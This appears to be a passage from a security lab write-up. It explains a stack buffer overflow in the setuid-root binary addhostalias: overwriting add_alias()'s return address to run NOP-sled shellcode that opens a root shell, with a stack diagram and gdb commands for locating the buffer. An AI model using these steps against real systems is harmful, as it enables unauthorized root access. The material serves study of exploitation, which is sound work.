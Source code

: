 ```
[Low Addr]
<--------4B-wide----->
```

3. Jump to malicious shell code when `

```
[High Addr]	
| malicious ret addr X | 	→--------------↓		
----------------------	 				 ↓	
|malicious ret addr X |  				 ↓
----------------------	 				 ↓  1. return to shell code
|malicious ret addr X |	 				 ↓
| 		shellcode  	| -> 2. open new shell↓
| 		shellcode  	| 	←-----------------↓
| 		NOP_sled	 |
| 		.........	 |	 
| 		NOP_sled	 |	
|char formatbuffer[] |
----------------------
[Low Addr]
<--------4B-wide----->
```

Clearly, if we do not check the boundary of the `formatbuffer[]` here, excessive input can overflow and then overwrite the return address of the function `add_alias()`. Thus, by manipulating the return address, after the execution of `add_alias()`, we can execute the malicious code in the buffer that comes from the input, such as opening a new shell in this case. 

Moreover, since the target binary is owned by `root` and the `setuid` bit is enabled, the shell we opened can be a `root` shell.

### 1.2 Find Return Address

To locate the buffer, we can simply take the following steps:

1. Use `gdb` to run the target binary. The inputs are special strings that we can easily recognize: `aaa...`, `bbb...`, and `ccc...` (in hex).

```
gdb --args /usr/bin/addhostalias $(python -c "print '\xaa' * 85") $(python -c "print '\xbb' * 85") $(python -c "print '\xcc' * 85")
```

2. Make a break point after the aforementioned `sprintf()` function. Here we choose the `fopen()` function right after it.

```
(gdb) b fopen
Breakpoint 1 at 0x8048440
```

3. Run the binary, dump the stack and locate the target buffer.

   ![屏幕截图 2025-04-24 192247](屏幕截图 2025-04-24 192247.png)
